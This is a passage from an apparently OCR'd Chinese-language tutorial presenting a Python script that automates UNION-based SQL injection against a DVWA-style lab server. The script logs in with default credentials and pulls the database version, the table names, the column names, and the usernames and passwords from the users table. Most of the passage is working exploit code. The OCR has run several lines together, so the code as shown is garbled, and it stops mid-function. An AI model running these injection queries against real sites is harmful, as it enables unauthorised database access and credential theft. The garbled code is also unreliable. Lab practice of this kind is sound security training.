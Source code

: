 ```
query_users_names = "-1 UNION SELECT {}, {} FROM users #"
```

这是主要的相关部分:

```
username, password = input(
    "Type username and password column values with comma separator:\n"
).split(",", 1)
print("The users' names and passwords in users table are:")
for user in send_query(
    query_users_names.format(username.strip(), password.strip()), session
):
    print(beautify_query_double(user))
```

该代码要求用户输入用户名和密码列值，并用逗号分隔。然后打印出用户表中的用户名和密码。
列的值来自逗号分隔的输入。

# 结论

让我们看看完整的代码，然后运行它！

```
import requests
from bs4 import BeautifulSoup# Cookies for security level
security_levels = ["low", "medium", "high", "impossible"]
# URL section
base_ip = "10.10.35.182"
login_url = f"[http://{base_ip}/login.php](http://{base_ip}/login.php)"
sqli_url = f"[http://{base_ip}/vulnerabilities/sqli/](http://{base_ip}/vulnerabilities/sqli/)"# Query section
query_version = "-1 UNION SELECT 1, VERSION()#"
query_database = "-1 UNION SELECT 1,DATABASE() #"
query_tables = "-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type=0x62617365207461626c65 AND table_schema=0x{}; #"
query_users_cols = "-1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name=0x{} #"
query_users_names = "-1 UNION SELECT {}, {} FROM users #"def send_query(query, session):data = {"id": query, "Submit": "Submit"}response = session.post(sqli_url, data=data)
    soup = BeautifulSoup(response.text, "html.parser")final_result = soup.find_all("pre")
    return final_resultdef login(url, security):
    s = requests.Session()
    s.cookies.set("security", security_levels[security])
    response = s.get(url)
    soup = BeautifulSoup(response.text, "html.parser")
    user_token = soup.find("input", {"name": "user_token"})data = {
        "username": "admin",
        "password": "password",
        "Login": "Login",
        "user_token": user_token["value"],
    }
    response = s.post(url, data=data)return sdef beautify_query_single(query_result):
    beautified_query_result = (
        str(query_result)
        .replace("<br/>", "\n")
        .replace("<pre>", "")
        .replace("</pre>", "")
    )
    return beautified_query_result.splitlines()[2].split(":")[1].strip()def beautify_query_double(query_result):
    beautified_query_result = (
        str(query_result)
        .replace("<br/>", "\n")
        .replace("<pre>", "")
```